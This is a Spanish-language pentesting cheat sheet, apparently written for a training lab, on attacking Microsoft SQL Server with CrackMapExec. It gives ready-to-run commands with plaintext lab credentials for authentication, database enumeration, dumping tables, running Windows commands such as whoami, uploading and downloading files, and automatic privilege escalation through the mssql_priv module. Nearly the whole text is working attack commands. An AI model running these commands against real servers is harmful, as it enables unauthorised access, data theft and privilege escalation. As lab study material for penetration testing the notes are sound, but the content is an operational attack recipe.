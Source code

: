 # BF

Hay 3 formas de probar autenticarse contra MSSQL:

1) Con usuario de dominio (por defecto)
2) Con usuario local
3) COn usuario de MSSQL

### Con usuario de dominio 
Hacemos la llamada con CME como viene

### Con usuario local

agregamos como domionio el "."

    crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! -d .

### Con usuario de MSSQL
Agregamos la flag: --local-auth

    crackmapexec mssql 10.129.203.121 -u julio grace  -p Inlanefreight01! --local-auth

## ¡¡Si el usuario dice pwnd! quiere decir que es DBA!!

# Footprinting

### Obtener DBs
    crackmapexec mssql 10.129.203.121 -u grace -p Inlanefreight01! -q "SELECT name FROM master.dbo.sysdatabases"

### Obtener nombres de las tablas

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT table_name from <db>.INFORMATION_SCHEMA.TABLES"

### Dumpear una tabla

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT * from [db].[dbo].<tabla>" 

# Ejecutar comandos de windows
Si el user es DBA podemos ejecutar comandos con la flag -x

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -x whoami

# Traspso de archivos

### Para enviar un archivo

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --put-file <path_archivo_local> <path_completo_destino>

### Para descargar un archivo

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --get-file <path_file> <file_a_crear>

# PE

### Revisar si podemos elevar privilegios
    crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv
### Ejecutar de manera automática la elevación de privilegios

    crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=privesc

Luego vamos poder ejecutar comandos o hacer un rollback

### Hacer rollback de privilegios

    crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=rollback
